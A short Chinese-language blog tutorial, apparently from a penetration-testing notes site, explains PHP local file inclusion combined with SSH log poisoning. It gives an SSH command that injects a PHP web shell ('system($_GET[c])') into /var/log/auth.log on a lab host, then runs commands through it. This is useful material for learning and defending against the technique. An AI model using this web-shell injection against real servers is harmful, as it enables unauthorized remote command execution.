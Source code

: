 ```yaml
---
title: ssh_log
date: 2017-03-01 15:54:24
tags:
		- ssh-log
		- 
categories:
		- 渗透技巧
---
```


日志污染结合文件漏洞进行利用。

<!-- more -->

##### 文件包含+日志污染

PHP等脚本语言能够从外部文件读取脚本源码的一部分。PHP中对应的函数有require、require_once、include、include_once。

如果外界能够指定include的对象文件名，就可能会发生意料之外的文件被include而遭到攻击。这被称为文件包含漏洞。

测试：含有本地文件包含的代码。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-15/80365472.jpg)

在同级目录下，包含一个lfi.txt。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-15/35522367.jpg)

浏览器访问，可以看到执行成功。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-15/53599383.jpg)

ssh污染日志可以写入攻击代码。
用ssh连接目标机(192.168.145.191)，同时写入攻击代码，密码任意填入，是错误的密码。
root@kali:/var/log# ssh '<?php system($_GET[c]); ?>'@192.168.145.191
在目标机/var/log/auth.log登录日志可以看到写入的代码。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-15/4306620.jpg)

日志中的攻击代码是否可以执行成功，得看/var/log/auth.log文件的权限，如果它对其他用户具有读权限，则可以成功，否则，不可以。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-15/76389039.jpg)


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-15/61569392.jpg)

下图可以看到可以执行成功。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-15/41690106.jpg)


##### 参考

[http://www.hackingarticles.in/web-server-exploitation-ssh-log-poisoning-lfi/](http://www.hackingarticles.in/web-server-exploitation-ssh-log-poisoning-lfi/)

[http://www.cnbraid.com/2017/ssh-poison-lfi-shell.html](http://www.cnbraid.com/2017/ssh-poison-lfi-shell.html)
